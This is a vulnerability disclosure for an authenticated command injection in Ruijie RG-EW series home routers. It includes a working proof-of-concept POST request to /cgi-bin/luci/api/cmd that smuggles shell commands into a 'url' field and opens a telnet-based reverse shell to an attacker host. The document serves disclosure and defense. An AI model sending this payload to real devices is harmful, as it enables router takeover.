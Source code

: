 ### Regarding the Post-Authorization RCE in Ruijie Home Router EW Series Devices
Reported by:Sheep
### Affected Versions:

- RG-EW5100BE PRO latest version EW_3.0B11P280_EW5100BE-PRO_12183019
- Theoretically applies to all EW series devices

Download link: https://www.ruijie.com.cn/fw/rj-cp-ew5100bepro/

# Overview

**In the Ruijie RG-EW series routers, there exists an authorization-based command injection vulnerability by sending a POST request containing a specific URL field to /cgi-bin/luci/api/cmd.**

# Vulnerability details

**Under /usr/sbin/unifyframe-sgi.elf**

![image-20250921000358833](https://cdn.jsdelivr.net/gh/s1nec-1o/photo@main/img/202509222146491.png)

**For the url field in the data field, only** `$(` **and** `<` **were filtered, yet command execution still occurred afterwards.**

![image-20250921000536168](https://cdn.jsdelivr.net/gh/s1nec-1o/photo@main/img/202509222146493.png)

# POC

Send the following POST request to `/cgi-bin/luci/api/cmd`.

```url
POST /cgi-bin/luci/api/cmd?auth=24fde8726283b2b2e656f2f438751d13 HTTP/1.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6,zh-HK;q=0.5
Cookie: SN=a55fa66d7c919385ee10997fadb8c379; __APP_LANG__=zh_cn

{
    "method": "devSta.get",
    "params": {
        "module": "123",
        "from_url": 1,
        "data" : {"kkk":"abcd","url": "192.168.121.160\" -o /dev/null; mkfifo /tmp/test;telnet 192.168.121.138 6666 0</tmp/test|/bin/sh > /tmp/test ; echo \""}
              }
}
```

# Attack Demonstration

![image-20250922214553006](https://cdn.jsdelivr.net/gh/s1nec-1o/photo@main/img/202509222146494.png)


![image-20250922214609353](https://cdn.jsdelivr.net/gh/s1nec-1o/photo@main/img/202509222146495.png)

